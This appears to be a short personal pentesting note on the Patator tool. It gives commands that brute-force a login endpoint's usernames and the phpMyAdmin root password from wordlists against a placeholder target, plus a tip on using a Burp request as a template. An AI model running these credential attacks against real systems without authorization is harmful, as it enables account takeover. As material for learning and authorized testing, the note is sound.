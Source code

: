```yaml
---
category: Uncategorized
tags: []
---
```

```bash - kali
git clone https://github.com/lanjelot/patator && cd patator
```

#### Blind SQL injection
[[1.7_Blind SQLi]]

#### Fuzz Get Request
```bash - kali
python3 patator.py http_fuzz method=GET url="http://$TARGET/ajax.php?fun=login&username=FILE0&password=test" 0=users.txt -x ignore:fgrep='invalid user'
```

#### Fuzz Post Request
```bash - kali
python3 patator.py http_fuzz url=http://$TARGET/phpmyadmin/index.php method=POST body='pma_username=root&pma_password=FILE0&server=1&lang=en' 0=passwords.txt follow=1 accept_cookie=1 -x ignore:fgrep='Cannot log in to the MySQL server'
```

#### Attack from Burp request
Place in your FILE placeholders where necessary.  Below, we see in the password field.

![[Pasted image 20220318104320.png]]

Right click > copy to file > "copy to file" as text file.




